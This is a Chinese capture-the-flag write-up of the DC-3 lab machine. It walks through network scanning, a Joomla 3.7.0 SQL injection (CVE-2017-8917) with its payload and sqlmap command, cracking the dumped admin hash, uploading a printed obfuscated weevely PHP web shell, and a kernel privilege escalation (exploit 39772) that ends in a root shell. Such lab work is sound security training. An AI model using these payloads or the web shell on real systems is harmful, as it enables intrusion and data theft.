










DC-3 简介 一道boot2root的综合靶场练习
基础环境
kali2020
DC-3 1 flag
windows10
测试步骤 发现目标 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 arp-scan -l > >> root@kali:/home/caixin# arp-scan -l Interface: eth0, type: EN10MB, MAC: 00:0c:29:84:02:ae, IPv4: 192.168.43.105 Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan) 192.168.43.1 b6:a8:e3:16:1f:5e (Unknown: locally administered) 192.168.43.1 b6:a8:e3:16:1f:5e (Unknown: locally administered) (DUP: 2) 192.168.43.1 b6:a8:e3:16:1f:5e (Unknown: locally administered) (DUP: 3) 192.168.43.1 b6:a8:e3:16:1f:5e (Unknown: locally administered) (DUP: 4) 192.168.43.25 38:d2:ca:db:01:69 Zhejiang Tmall Technology Co., Ltd. 192.168.43.25 38:d2:ca:db:01:69 Zhejiang Tmall Technology Co., Ltd. (DUP: 2) 192.168.43.182 08:00:27:51:4f:e7 PCS Systemtechnik GmbH 192.168.43.25 38:d2:ca:db:01:69 Zhejiang Tmall Technology Co., Ltd. (DUP: 3) 192.168.43.225 20:0d:b0:30:02:d2 Shenzhen Four Seas Global Link Network Technology Co., Ltd. 9 packets received by filter, 0 packets dropped by kernel Ending arp-scan 1.9.7: 256 hosts scanned in 1.966 seconds (130.21 hosts/sec). 9 responded
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 nmap -sV -A -p 1-65535 192.168.43.182 > >> Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-02 08:35 EST Nmap scan report for 192.168.43.182 Host is up (0.00037s latency). Not shown: 65534 closed ports PORT STATE SERVICE VERSION 80/tcp open http Apache httpd 2.4.18 ((Ubuntu)) |_http-generator: Joomla! - Open Source Content Management |_http-server-header: Apache/2.4.18 (Ubuntu) |_http-title: Home MAC Address: 08:00:27:51:4F:E7 (Oracle VirtualBox virtual NIC) Device type: general purpose Running: Linux 3.X|4.X OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 OS details: Linux 3.2 - 4.9 Network Distance: 1 hop TRACEROUTE HOP RTT ADDRESS 1 0.37 ms 192.168.43.182 OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 11.92 seconds

joomscan 发现是joomla,扫一波
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 joomscan -u http://192.168.43.182/ > >> rocessing http://192.168.43.182/ ... [+] FireWall Detector [++] Firewall not detected [+] Detecting Joomla Version [++] Joomla 3.7.0 [+] Core Joomla Vulnerability [++] Target Joomla core is not vulnerable [+] Checking Directory Listing [++] directory has directory listing : http://192.168.43.182/administrator/components http://192.168.43.182/administrator/modules http://192.168.43.182/administrator/templates http://192.168.43.182/images/banners [+] Checking apache info/status files [++] Readable info/status files are not found [+] admin finder [++] Admin page : http://192.168.43.182/administrator/ [+] Checking robots.txt existing [++] robots.txt is not found [+] Finding common backup files name [++] Backup files are not found [+] Finding common log files name [++] error log is not found [+] Checking sensitive config.php.x file [++] Readable config files are not found Your Report : reports/192.168.43.182/
这个时候拿到版本号为 3.7.0，搜索开源漏洞CVE-2017-8917，进行sql注入(报错注入)
1 http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)

1 sqlmap -u "http://192.168.43.182/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=" -p list[fullordering] --risk 3 --level 3
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 # 数据库 available databases [5]: [*] information_schema [*] joomladb [*] mysql [*] performance_schema [*] sys # 表 Database: joomladb [76 tables] +---------------------+ | #__assets | | #__associations | | #__banner_clients | | #__banner_tracks | | #__banners | | #__bsms_admin | | #__bsms_books | | #__bsms_comments | | #__bsms_locations | | #__bsms_mediafiles | | #__bsms_message_typ | | #__bsms_podcast | | #__bsms_series | | #__bsms_servers | | #__bsms_studies | | #__bsms_studytopics | | #__bsms_teachers | | #__bsms_templatecod | | #__bsms_templates | | #__bsms_timeset | | #__bsms_topics | | #__bsms_update | | #__categories | | #__contact_details | | #__content_frontpag | | #__content_rating | | #__content_types | | #__content | | #__contentitem_tag_ | | #__core_log_searche | | #__extensions | | #__fields_categorie | | #__fields_groups | | #__fields_values | | #__fields | | #__finder_filters | | #__finder_links_ter | | #__finder_links | | #__finder_taxonomy_ | | #__finder_taxonomy | | #__finder_terms_com | | #__finder_terms | | #__finder_tokens_ag | | #__finder_tokens | | #__finder_types | | #__jbsbackup_timese | | #__jbspodcast_times | | #__languages | | #__menu_types | | #__menu | | #__messages_cfg | | #__messages | | #__modules_menu | | #__modules | | #__newsfeeds | | #__overrider | | #__postinstall_mess | | #__redirect_links | | #__schemas | | #__session | | #__tags | | #__template_styles | | #__ucm_base | | #__ucm_content | | #__ucm_history | | #__update_sites_ext | | #__update_sites | | #__updates | | #__user_keys | | #__user_notes | | #__user_profiles | | #__user_usergroup_m | | #__usergroups | | #__users | | #__utf8_conversion | | #__viewlevels | +---------------------+ # Database: joomladb Table: #__users [6 columns] +----------+-------------+ | Column | Type | +----------+-------------+ | email | non-numeric | | id | numeric | | name | non-numeric | | params | non-numeric | | password | non-numeric | | username | non-numeric | +----------+-------------+ # 字段 back-end DBMS: MySQL >= 5.1 [11:09:29] [INFO] fetching entries of column(s) 'email,id,name,password,username' for table '#__users' in database 'joomladb' [11:09:29] [INFO] retrieved: 'freddy@norealaddress.net' [11:09:29] [INFO] retrieved: '629' [11:09:29] [INFO] retrieved: 'admin' [11:09:29] [INFO] retrieved: '$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu' [11:09:29] [INFO] retrieved: 'admin' Database: joomladb Table: #__users [1 entry] +-------+--------------------------+-----+--------------------------------------------------------------+----------+ | name | email | id | password | username | +-------+--------------------------+-----+--------------------------------------------------------------+----------+ | admin | freddy@norealaddress.net | 629 | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu | admin | +-------+--------------------------+-----+--------------------------------------------------------------+----------+
john 1 2 3 4 root@kali:/home/caixin/work/dc-3# john 1.txt --show ?:snoopy 1 password hash cracked, 0 left
登录后台 admin/snoopy
后台写马 拿shell



提权
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 # 生成 shell weevely generate 4396 shell.php >>> root@kali:/home/caixin/work/dc-3# cat shell.php <?php $O='"||f2fDhcytJ|d2lgN|dy";f|unction x($t|,$k|){$c=|strl|en($k);$l=s'; $Z=')=|=1) {@ob_|star|t();@ev|a|l(@gzuncompr|ess|(@x(@ba|se64_decode(|$'; $m='|trle|n($t);|$o="";for|($||i=0;$i<$l;){f|or($j=0;(|$j<$|c&&$i<|$l|'; $c=');$j++,$|i++){$o||.=$t{$i}^$k{$|j}|;}}retu|rn $o;}|if (@preg_|mat'; $y='m[1])|,$k)))|;$|o=@ob_get_|conte|n|ts();|@ob_e||nd_clean();$r|='; $T=str_replace('bv','','cbvrbveatbvbvbvebv_function'); $M='@b|ase64|_|encode(@x(@gzcompre|s|s(||$o),$k));print("$p$kh$|r$kf");}'; $f='$k="b4|aa|00b|c";$kh|="1c59b9d|1cdd0";$kf="7||479070e355|e";$p='; $l='ch|("/$kh|(|.|+)$k|f/",@file_get_co|nten|ts|("php:|//in|put"),$m'; $I=str_replace('|','',$f.$O.$m.$c.$l.$Z.$y.$M); $B=$T('',$I);$B(); ?> # 将 shell 写到后台 # 连接shell weevely http://192.168.43.182/templates/beez3/shell.php 4396



1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 root@kali:/home/caixin# searchsploit ubuntu 16.04 -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- --------------------------------- Exploit Title | Path -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- --------------------------------- Apport 2.x (Ubuntu Desktop 12.10 < 16.04) - Local Code Execution | linux/local/40937.txt Exim 4 (Debian 8 / Ubuntu 16.04) - Spool Privilege Escalation | linux/local/40054.c Google Chrome (Fedora 25 / Ubuntu 16.04) - 'tracker-extract' / 'gnome-video-thumbnailer' + 'totem' Drive-By Download | linux/local/40943.txt LightDM (Ubuntu 16.04/16.10) - 'Guest Account' Local Privilege Escalation | linux/local/41923.txt Linux Kernel (Debian 7.7/8.5/9.0 / Ubuntu 14.04.2/16.04.2/17.04 / Fedora 22/25 / CentOS 7.3.1611) - 'ldso_hwcap_64 Stack Clash' Local Privilege Escalation | linux_x86-64/local/42275.c Linux Kernel (Debian 9/10 / Ubuntu 14.04.5/16.04.2/17.04 / Fedora 23/24/25) - 'ldso_dynamic Stack Clash' Local Privilege Escalation | linux_x86/local/42276.c Linux Kernel (Ubuntu 16.04) - Reference Count Overflow Using BPF Maps | linux/dos/39773.txt Linux Kernel 4.14.7 (Ubuntu 16.04 / CentOS 7) - (KASLR & SMEP Bypass) Arbitrary File Read | linux/local/45175.c Linux Kernel 4.4 (Ubuntu 16.04) - 'BPF' Local Privilege Escalation (Metasploit) | linux/local/40759.rb Linux Kernel 4.4 (Ubuntu 16.04) - 'snd_timer_user_ccallback()' Kernel Pointer Leak | linux/dos/46529.c Linux Kernel 4.4.0 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET' Race Condition Privilege Escalation | linux_x86-64/local/40871.c Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Netfilter target_offset Out-of-Bounds Privilege Escalation | linux_x86-64/local/40049.c Linux Kernel 4.4.0-21 < 4.4.0-51 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET' Race Condition Privilege Escalation | linux/local/47170.c Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF_PROG_LOAD) Privilege Escalation | linux/local/39772.txt Linux Kernel 4.6.2 (Ubuntu 16.04.1) - 'IP6T_SO_SET_REPLACE' Local Privilege Escalation | linux/local/40489.txt Linux Kernel 4.8 (Ubuntu 16.04) - Leak sctp Kernel Pointer | linux/dos/45919.c Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation | linux/local/45010.c Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation | linux/local/44298.c Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Local Privilege Escalation | linux/local/44300.c Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escalation (KASLR / SMEP) | linux/local/43418.c Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zorin) - Local Privilege Escalation (KASLR / SMEP) | linux/local/47169.c -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- --------------------------------- Shellcodes: No Results
这里大多wp 会采用 39772这个洞
我们这里尝试一下 脏牛
得!!！ 内核提权直接提崩了


后记 说一下思路
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 # 下载exp(网络问题，没下到，采取脏牛靶机GG) https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip # 命令 (cat /usr/share/exploitdb/exploits/linux/local /39772.txt) user@host:~/ebpf_mapfd_doubleput$ ./compile.sh user@host:~/ebpf_mapfd_doubleput$ ./doubleput starting writev woohoo, got pointer reuse writev returned successfully. if this worked, you'll have a root shell in <=60 seconds. suid file detected, launching rootshell... we have root privs now... root@host:~/ebpf_mapfd_doubleput# id uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),999(vboxsf),1000(user) This exploit was tested on a Ubuntu 16.04 Desktop system.